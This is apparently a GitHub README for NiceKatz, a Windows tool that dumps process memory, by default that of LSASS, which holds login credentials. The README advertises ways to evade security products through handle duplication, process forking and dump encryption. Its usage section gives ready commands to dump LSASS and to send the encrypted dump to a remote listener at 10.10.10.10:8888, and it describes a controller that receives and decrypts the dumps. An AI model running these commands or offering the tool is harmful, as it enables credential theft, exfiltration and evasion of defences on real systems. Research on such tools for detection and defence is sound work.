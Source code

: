 # NiceKatz - a nice process dumping tool

![🍉](https://cdn.emojidex.com/emoji/seal/watermelon.png "watermelon")

NiceKatz is a process dumping tool which was developed as part of my software development and windows internals studies.
This tool lets you dump the memory of windows process's in couple of different ways and avoids calling suspicious APIs. 

It is well known already that most of the modern security solutions will block any API calls such as OpenProcess that targets sensetive processes(eg. lsass.exe), other then that, direct memory reading of such processes will also flag modern security solutions. If this is not enough, there are also some vendors that detects the signature of the dump file itself, so even if the handle to the process is retrieved, and the memory reading has completed, all of the work will be thrown away once the dump file touches the disk.. 

NiceKatz evades all of the problems mentioned above, and provides more then one way to dump the processe's memory. 

## Features
- Uses handle duplication to avoid direct OpenProcess to the target
- Supports process forking to avoid direct memory reading of the target process
- Can dump ANY process, not only LSASS
- Supports two different dump modes - MiniDumpWriteDump and SilentProcessExit
- Implements MiniDumpWriteDump callback to capture MiniDump information in memory
- Supports dump encryption to avoid dmp file signatures from being detected
- Supports sending dump file remotely without touching the disk
- Cleanup is performed for any OS configuration change
- Provides a controller that can be used as a listener and a decryptor of dump files generated by NiceKatz

## Build instructions
A full visual studio solution is provided, just load it to visual studio and build.
The right build to use is "Release x64". Do not build as x86, it is not supported by this tool.
The build will result in two files - NiceKatz.exe and NiceKatzController.exe

## NiceKatz
This is is the program that performs the actual process dumping, you can use it to dump any process, in two different modes. 
You can use  this program to dump processes, encrypt the dumped process, send it remotlely or write it to disk.  
#### NiceKatz usage:
```
NiceKatz v0.1
        Alon Leviev(@0xDeku)

Mandatory args:
-m Process dump method
        1 = Dump target process by using MiniDumpWriteDump
        2 = Dump target process by using SilentProcessExit(Does not support -r and -e ATM)

Other args:
-e Encrypt output file
-r Send dmp remotly without touching the disk
        <IP_ADDR> The ip address to send the dump to
        <PORT> The port of which to connect to
-p Target process id to dump(Default: LSASS pid)

Examples:
- Dump lsass by using MiniDumpWriteDump and ecrypt the output file:
        NiceKatz.exe -m 1 -e
- Dump PID 1234 by using SilentProcessExit method:
        NiceKatz.exe -m 2 -p 1234
- Dump PID 5678 by using MiniDumpWriteDump, encrypt the dump in memory and send remotly:
        NiceKatz.exe -m 1 -p 5678 -r 10.10.10.10:8888 -e
```

## NiceKatzController
This is the program which you can use to listen for connections arriving from NiceKatz.exe. 
The controller has more capabilities such as: decrypting the process dump stream recived from the socket as well as decrypting a given file genereated by NiceKatz.exe

#### NiceKatzController usage:
```
NiceKatzController
        Alon Leviev(@0xDeku)

Arguments:
-l Listen for connections from remote target machine
-d Decrypt the dump file when recived from the target
-df Decrypt an encrypted dump file by path(Not supported with other arguments)

Examples:
- Listen for connections from remote target and decrypt the recived dump file:
        NiceKatzController.exe -l -d
- Decrypt an encrypted dump file by its path:
        NiceKatzController.exe -df C:\Temp\dump.dmp
```

## Demo

![20220712_204208](https://user-images.githubusercontent.com/93016131/178571906-19849b98-50fc-41c1-b23a-848a1bb8c8ac.gif)


## Future development
There is a list of TODOs and I will continue developing this tool in the future.
If you encounter a bug, or want to ask for aditional features, just open an issue on this git repo. 

## Credits 
Rasta mouse
MalsecLogon
NanoDump
Deep Inistinct

